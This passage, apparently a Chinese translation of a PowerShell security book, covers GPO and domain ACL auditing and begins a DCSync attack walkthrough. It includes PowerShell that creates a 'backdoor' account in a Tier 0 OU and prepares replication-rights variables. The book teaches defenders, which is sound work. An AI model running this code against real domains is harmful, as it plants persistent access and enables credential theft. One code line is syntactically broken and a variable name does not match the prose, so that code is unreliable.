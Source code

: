 代码片段首先使用 ADSI 搜索器查找默认域策略的可分辨名称，并将其设置为权限更改的目标 GPO。然后，它在 **$AttackerIdentity** 变量中指定攻击者的身份，并创建一个新的访问规则，授予攻击者对目标 GPO 的 **GenericAll** 权限。**GenericAll** 权限是一种预定义的安全原则，授予对特定对象或资源的所有可能访问权限；换句话说，它提供对对象的完全控制。

最后，脚本将更改提交到 GPO 的对象安全性，实际上授予攻击者对默认域策略的完全控制。这可能使攻击者修改 GPO 的设置，包括安全设置，并可能接管整个域的控制。

请确保定期检查您域中的 GPO ACL。您可以通过组合 **Get-Gpo** 和 **Get-GPPermission** cmdlet 来查看 GPO 访问权限，这些 cmdlet 是 **GroupPolicy** 模块的一部分。可以通过安装 RSAT 工具来安装 **GroupPolicy** 模块。有关此模块的更多信息，请访问：[`docs.microsoft.com/en-us/powershell/module/grouppolicy/`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/)。

作为审计 GPO 访问权限的示例，我编写了一个脚本并将其上传到本书的 GitHub 仓库：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-GpoAcls.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-GpoAcls.ps1)。

类似于 OU ACL 示例，您可以在 Excel 中创建一个数据透视表来评估您环境中的 GPO ACL。

## 域 ACLs

另一个特别关注的是配置在 AD 域本身的访问权限。这些访问权限控制谁有权限在域中复制对象或执行其他敏感的域操作。**domainDNS** 访问控制列表（ACLs）至关重要，因为它们赋予域控制器和域管理员在域内执行所有必要功能和操作的能力。

此外，通常在域根目录授予的访问权限会被所有子对象继承；因此，直接在根目录级别调整它们是有意义的。

您可以使用以下命令审计域级别上配置的 ACL：**(Get-Acl -Path "AD:\$((Get-ADdomain).DistinguishedName)").Access |** **Out-GridView**。

### DCSync

DCSync 攻击是一种技术，攻击者模拟域控制器的行为，诱使其他域控制器复制 AD 特定的信息（例如，**NT Lan Manager**（**NTLM**）哈希值和其他凭证相关数据）到攻击者。此攻击利用了 **Microsoft Directory Replication Service Remote**（**MS-DRSR**）协议，这是 AD 的一个基本且合法的功能，因此无法简单地禁用。

DCSync 攻击允许攻击者模拟域控制器并请求特定用户的密码数据，即使攻击者没有直接访问该用户的计算机或账户。攻击者可以利用这些哈希值在网络中进行横向移动和权限升级。

为了执行此攻击，攻击者必须在域中拥有较高的权限。获取这些权限的一种方式是通过创建后门账户，后门账户可以绕过安全控制并授予攻击者更高的权限。

首先，我们创建一个新用户账户，**"backdoor"**，它应作为攻击者的 **backdoor** 账户：

```
$AttackerName = "backdoor"
$AttackerPassword = Read-Host -AsSecureString
$AttackerDescription = "Backdoor account for DCSync attack"
$AttackerPath = "OU=Service Accounts,OU=Tier 0,DC=PSSec,DC=local"
New-ADUser -Name $AttackerName -AccountPassword $AttackerPassword -Description $AttackerDescription -Path $AttackerPath -Enabled $true
```

接下来，我们创建将在 DCSync 攻击中使用的变量。首先，我们检索之前创建的后门用户的名称，并将其保存在 **$AttackerIdentity** 变量中，以备后用，使用 **NTAccount** 类。

现在，我们连接到域的根目录并检索域的区分名称。我们创建一个 **$ReplAddGUID** 变量来保存“Replicating Directory Changes All”扩展权限的 GUID（**1131f6ad-9c07-11d1-f79f-00c04fc2dcd2**）。我们还创建变量来指定 DCSync 攻击所需的访问控制类型：

```
$AttackerIdentity = System.Security.Principal.NTAccount.Name).ToString()
$Dsa = [ADSI]"LDAP://rootDSE"
$domainDN = $Dsa.defaultNamingContext
$ReplAllGUID = "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
$ObjRights = "ExtendedRight"
$ObjControlType  = [System.Security.AccessControl.AccessControlType]::Allow
$ObjInherit = [System.DirectoryServices.ActiveDirectorySecurityInheritance]"All"
```
